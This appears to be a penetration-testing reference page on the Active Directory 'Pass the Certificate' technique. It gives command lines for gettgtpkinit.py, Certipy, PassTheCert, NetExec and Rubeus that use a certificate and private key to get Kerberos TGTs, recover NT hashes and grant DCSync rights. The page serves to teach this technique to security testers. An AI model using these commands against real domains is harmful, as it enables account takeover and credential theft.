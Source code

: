 ```yaml
---
authors: PfiatDe, ShutdownRepo, sckdev, Joker2a, mpgn
category: ad
---
```


# Pass the Certificate

## Theory

The Kerberos authentication protocol works with tickets in order to grant access. An ST (Service Ticket) can be obtained by presenting a TGT (Ticket Granting Ticket). That prior TGT can only be obtained by validating a first step named "pre-authentication" (except if that requirement is explicitly removed for some accounts, making them vulnerable to [ASREProast](asreproast.md)). The pre-authentication can be validated symmetrically (with a DES, RC4, AES128 or AES256 key) or asymmetrically (with certificates). The asymmetrical way of pre-authenticating is called PKINIT.

Pass the Certificate is the fancy name given to the pre-authentication operation relying on a certificate (i.e. key pair) to pass in order to obtain a TGT. This operation is often conducted along [shadow credentials](shadow-credentials.md), [AD CS escalation](../adcs/index) and [UnPAC-the-hash attacks](unpac-the-hash.md).

> [!TIP]
> Keep in mind a certificate in itself cannot be used for authentication without the knowledge of the private key. A certificate is signed for a specific public key, that was generated along with a private key, which should be used when relying on a certificate for authentication.
> 
> The "certificate + private key" pair is usually used in the following manner
> 
> * PEM certificate + PEM private key
> * PFX certificate export (which contains the private key) + PFX password (which protects the PFX certificate export)

## Practice

::: tabs

=== UNIX-like

From UNIX-like systems, [Dirk-jan](https://twitter.com/_dirkjan)'s [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py) from [PKINITtools](https://github.com/dirkjanm/PKINITtools/) tool to request a TGT (Ticket Granting Ticket) for the target object. That tool supports the use of the certificate in multiple forms.


```python
# PFX certificate (file) + password (string, optionnal)
gettgtpkinit.py -cert-pfx "PATH_TO_PFX_CERT" -pfx-pass "CERT_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

# Base64-encoded PFX certificate (string) (password can be set)
gettgtpkinit.py -pfx-base64 $(cat "PATH_TO_B64_PFX_CERT") "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

# PEM certificate (file) + PEM private key (file)
gettgtpkinit.py -cert-pem "PATH_TO_PEM_CERT" -key-pem "PATH_TO_PEM_KEY" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
```


Alternatively, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used for the same purpose.


```bash
certipy auth -pfx "PATH_TO_PFX_CERT" -dc-ip 'dc-ip' -username 'user' -domain 'domain'
```


Certipy's commands don't support PFXs with password. The following command can be used to "unprotect" a PFX file.


```bash
certipy cert -export -pfx "PATH_TO_PFX_CERT" -password "CERT_PASSWORD" -out "unprotected.pfx"
```


The ticket obtained can then be used to

* authenticate with [pass-the-cache](ptc.md)
* conduct an [UnPAC-the-hash](unpac-the-hash.md) attack. This can be done with [getnthash.py](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py) from [PKINITtools](https://github.com/dirkjanm/PKINITtools/).
* obtain access to the account's SPN with an S4U2Self. This can be done with [gets4uticket.py](https://github.com/dirkjanm/PKINITtools/blob/master/gets4uticket.py) from [PKINITtools](https://github.com/dirkjanm/PKINITtools).

> [!TIP]
> When using Certipy for Pass-the-Certificate, it automatically does [UnPAC-the-hash](unpac-the-hash.md) to recover the account's NT hash, in addition to saving the TGT obtained.

Another alternative is with [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/blob/main/Python/passthecert.py) (Python) which can be used to conduct multiple techniques like elevate a user for [dcsync.md](../credentials/dumping/dcsync.md) or change password for a specific user.

```bash
# extract key and cert from the pfx
certipy cert -pfx "PATH_TO_PFX_CERT" -nokey -out "user.crt"
certipy cert -pfx "PATH_TO_PFX_CERT" -nocert -out "user.key"

# elevate a user for DCSYNC with passthecert.py
passthecert.py -action modify_user -crt "PATH_TO_CRT" -key "PATH_TO_KEY" -domain "domain.local" -dc-ip "DC_IP" -target "SAM_ACCOUNT_NAME" -elevate
```

You can also use [Netexec](https://github.com/Pennyw0rth/NetExec) to perform Pass-the-Certificate authentication:

```bash
netexec <proto> <ip> --cert-pfx "PATH_TO_PFX_CERT" -u user 
netexec <proto> <ip> --cert-pfx "PATH_TO_PFX_CERT" --pfx-pass "CERT_PASSWORD" -u user 
netexec <proto> <ip> --pfx-base64 "PATH_TO_PFX_CERT" -u user 
netexec <proto> <ip> --cert-pem "PATH_TO_CRT" --key-pem "PATH_TO_KEY" -u user 
```


=== Windows

From Windows systems, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used to request a TGT (Ticket Granting Ticket) for the target object from a base64-encoded PFX certificate export (with an optional password).

```powershell
Rubeus.exe asktgt /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
```

> [!TIP]
> PEM certificates can be exported to a PFX format with openssl. Rubeus doesn't handle PEM certificates.
> 
> ```bash
> openssl pkcs12 -in "cert.pem" -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out "cert.pfx"
> ```

> [!TIP]
> Certipy uses DER encryption. To generate a PFX for Rubeus, [openssl](https://www.openssl.org/) can be used.
> 
> ```bash
> openssl rsa -inform DER -in key.key -out key-pem.key
> openssl x509 -inform DER -in cert.crt -out cert.pem -outform PEM
> openssl pkcs12 -in cert.pem -inkey key-pem.key -export -out cert.pfx
> ```
>
> > [!TIP]
> To generate a b64 for Rubeus:
> 
> ```powershell
> $pfx_cert = get-content 'c:\cert.pfx' -Encoding Byte
> $base64 = [System.Convert]::ToBase64String($pfx_cert)
> $base64
> ```

The ticket obtained can then be used to

* authenticate with [pass-the-ticket](ptt.md)
* conduct an [UnPAC-the-hash](unpac-the-hash.md) attack (add the `/getcredentials` flag to Rubeus's asktgt command)
* obtain access to the account's SPN with an S4U2Self.

:::